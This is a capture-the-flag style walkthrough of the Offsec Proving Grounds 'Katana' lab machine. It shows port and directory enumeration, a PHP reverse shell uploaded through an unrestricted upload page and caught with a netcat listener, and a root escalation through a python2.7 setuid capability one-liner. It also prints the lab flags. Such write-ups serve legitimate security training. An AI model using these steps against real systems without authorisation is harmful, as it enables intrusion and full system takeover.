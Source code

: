 ```yaml
---
title: Offsec-PG[KATANA]
author: Anurag M
date: 2021-09-17 22:30:00 +0800
categories: [Offsec-PG]
tags: [ offsec-pg, capabilities, SUID, upload, gobuster ]
---
```


![katana](https://raw.githubusercontent.com/vincidadesigns/vincidadesigns.github.io/main/assets/img/posts/katana/katana.png)

Katana is a boot2root linux machine hosted on Offensive Security Playing Grounds, originally from VulnHub.

## About The Machine

| Name | OS | Difficulty |
|------|----|------------|
| Katana | Linux | Easy |

## Reconnaissance
### Nmap

```bash
┌─[v1nc1d4@V1NC1D4]─[~/Desktop/offsec-PG/katana]
└──╼ $nmap -sC -sV -p- 192.168.174.83
Starting Nmap 7.91 ( https://nmap.org ) at 2021-09-17 18:20 IST
Nmap scan report for 192.168.174.83
Host is up (0.37s latency).
Not shown: 65527 closed ports
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 3.0.3
22/tcp   open  ssh         OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 89:4f:3a:54:01:f8:dc:b6:6e:e0:78:fc:60:a6:de:35 (RSA)
|   256 dd:ac:cc:4e:43:81:6b:e3:2d:f3:12:a1:3e:4b:a3:22 (ECDSA)
|_  256 cc:e6:25:c0:c6:11:9f:88:f6:c4:26:1e:de:fa:e9:8b (ED25519)
80/tcp   open  http        Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Katana X
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 4.9.5-Debian (workgroup: WORKGROUP)
7080/tcp open  ssl/http    LiteSpeed httpd
|_http-server-header: LiteSpeed
|_http-title: Katana X
| ssl-cert: Subject: commonName=katana/organizationName=webadmin/countryName=US
| Not valid before: 2021-05-11T13:57:36
|_Not valid after:  2022-05-11T13:57:36
|_ssl-date: 2020-05-19T20:23:01+00:00; +1s from scanner time.
| tls-alpn: 
|   h2
|   spdy/3
|   spdy/2
|_  http/1.1
8088/tcp open  http        LiteSpeed httpd
|_http-server-header: LiteSpeed
|_http-title: Katana X
8715/tcp open  http        nginx 1.14.2
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  Basic realm=Restricted Content
|_http-server-header: nginx/1.14.2
|_http-title: 401 Authorization Required
MAC Address: 00:0C:29:7E:18:F9 (VMware)
Service Info: Host: KATANA; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

As there are many open ports, started enumerating each port starting with `FTP` and `Samba shares`. `FTP` doesn't allow anonymous access. And there are no public network shares.

### HTTP

Since port 80 is open, started exploring HTTP service. But couldn't find anything on port 80. Just a simple landing page.

![katana](https://raw.githubusercontent.com/vincidadesigns/vincidadesigns.github.io/main/assets/img/posts/katana/1.png)

Going deeper, started brute-force attack on port 80 to find hidden directories using `gobuster`, but still couldn't find anything.

To find a way in started exploring other open ports `8088`, `8715`.
Enumerating directories with `gobuster` revealed an interesting `upload` function on port `8088`.

```bash
┌─[v1nc1d4@V1NC1D4]─[~/Desktop/offsec-PG/katana]
└──╼ $gobuster dir -k -u http://192.168.174.83:8088/ -w /usr/share/wordlists/dirb/common.txt -x html,php
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.174.83:8088/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              html,php
[+] Timeout:                 10s
===============================================================
2021/09/17 18:33:36 Starting gobuster in directory enumeration mode
===============================================================
/.htaccess            (Status: 403) [Size: 1227]
/blocked              (Status: 301) [Size: 1260] [--> http://192.168.174.83:8088/blocked/]
/cgi-bin              (Status: 301) [Size: 1260] [--> http://192.168.174.83:8088/cgi-bin/]
/css                  (Status: 301) [Size: 1260] [--> http://192.168.174.83:8088/css/]    
/docs                 (Status: 301) [Size: 1260] [--> http://192.168.174.83:8088/docs/]   
/error404.html        (Status: 200) [Size: 195]                                           
/img                  (Status: 301) [Size: 1260] [--> http://192.168.174.83:8088/img/]    
/index.html           (Status: 200) [Size: 655]                                           
/index.html           (Status: 200) [Size: 655]                                           
/phpinfo.php          (Status: 200) [Size: 50739]                                         
/phpinfo.php          (Status: 200) [Size: 50739]                                         
/protected            (Status: 301) [Size: 1260] [--> http://192.168.174.83:8088/protected/]
/upload.html          (Status: 200) [Size: 6480]  <-----File Upload Page                                          
/upload.php           (Status: 200) [Size: 1800]                                            
                                                                                            
===============================================================
2021/09/17 18:44:02 Finished
===============================================================

```
Browsing to the page, we can see the page has `two` file upload options.

![katana](https://raw.githubusercontent.com/vincidadesigns/vincidadesigns.github.io/main/assets/img/posts/katana/3.png)

Let's try to upload a shell. We can use [pentestermonkey's](https://github.com/pentestmonkey/php-reverse-shell) php reverse shell.

![katana](https://raw.githubusercontent.com/vincidadesigns/vincidadesigns.github.io/main/assets/img/posts/katana/4.png)

After successfully uploading the file, we get a message that the file we uploaded was internally redirected to another directory. We could also notice that the file name was also changed.

![katana](https://raw.githubusercontent.com/vincidadesigns/vincidadesigns.github.io/main/assets/img/posts/katana/5.png)

## Gaining Foothold

We are provided with a new file name `katana_shell.php`, but the file doesn't seem to be served at port `8088`. Searching for the file on other open ports revealed that the file is being served at port `8715`. This explains the internal redirection of the file while uploading.

Now let us start our netcat listener on the specified port.

```bash
┌─[v1nc1d4@V1NC1D4]─[~/Desktop/offsec-PG/katana]
└──╼ $nc -nlvp 4444
listening on [any] 4444 ...
```

Let's trigger our reverse shell browsing to the url `http://192.168.174.83:8715/katana_shell.php`.

![katana](https://raw.githubusercontent.com/vincidadesigns/vincidadesigns.github.io/main/assets/img/posts/katana/6.png)

Few seconds later I got a shell back on my netcat listener.

```bash
┌─[v1nc1d4@V1NC1D4]─[~/Desktop/offsec-PG/katana]
└──╼ $nc -nlvp 4444
listening on [any] 4444 ...
connect to [192.168.49.174] from (UNKNOWN) [192.168.174.83] 39846
Linux katana 4.19.0-9-amd64 #1 SMP Debian 4.19.118-2 (2020-04-29) x86_64 GNU/Linux
 09:20:01 up 34 min,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
```

Now let's upgrade to a stable shell.

```bash
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@katana:/$ export TERM=xterm
export TERM=xterm
www-data@katana:/$
```
First flag can be found in the `/var/www` directory.

```bash
www-data@katana:/var/www$ ls
ls
html  local.txt
www-data@katana:/var/www$ cat local.txt
cat local.txt
54aa457b045ab4951fcc3c3e2cce9f75
www-data@katana:/var/www$
```

## Privilege Escalation

Enumerating the box for privilege escalation, we can find that `python2.7` has suid capabilities.
Capabilities are like the `SUID` but may limit user's permission and more.
Here is an interesting article about privilege escalation using capabilities.

[Privilege Escalation Using Capabilities](https://www.hackingarticles.in/linux-privilege-escalation-using-capabilities/)

```bash
www-data@katana:/home/katana$ /sbin/getcap -r / 2>/dev/null
/sbin/getcap -r / 2>/dev/null
/usr/bin/ping = cap_net_raw+ep
/usr/bin/python2.7 = cap_setuid+ep
```

Let's check [GTFOBins](https://gtfobins.github.io/gtfobins/python/#capabilities)

![katana](https://raw.githubusercontent.com/vincidadesigns/vincidadesigns.github.io/main/assets/img/posts/katana/7.png)

It's time to get root shell.

```bash
www-data@katana:/home/katana$ python2.7 -c 'import os; os.setuid(0); os.system("/bin/bash")'
python2.7 -c 'import os; os.setuid(0); os.system("/bin/bash")'
root@katana:/home/katana# 
```

The root flag can be found in `root` directory.

```bash
root@katana:/root# ls -la
ls -la
total 40
drwx------  4 root root 4096 Sep 17 08:47 .
drwxr-xr-x 18 root root 4096 Jul  3  2020 ..
-rw-------  1 root root  103 Mar 10  2021 .bash_history
-rw-r--r--  1 root root  570 Jan 31  2010 .bashrc
drwx------  3 root root 4096 May 11  2020 .gnupg
drwxr-xr-x  3 root root 4096 Aug 20  2020 .local
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
-rw-r--r--  1 root root   66 May 11  2020 .selected_editor
-rw-r--r--  1 root root   33 Sep 17 08:48 proof.txt
-rw-r--r--  1 root root   32 Aug 20  2020 root.txt
root@katana:/root# cat proof.txt
cat proof.txt
f17e77872294bd15606b5a1b1e8aaaff
root@katana:/root#
```
## Resources

| Topic | Url |
|-------|-----|
| GTFOBins-Python Capabilities | [Click here](https://gtfobins.github.io/gtfobins/python/#capabilities) |
| Reverse Shell | [Click here](https://github.com/pentestmonkey/php-reverse-shell) |
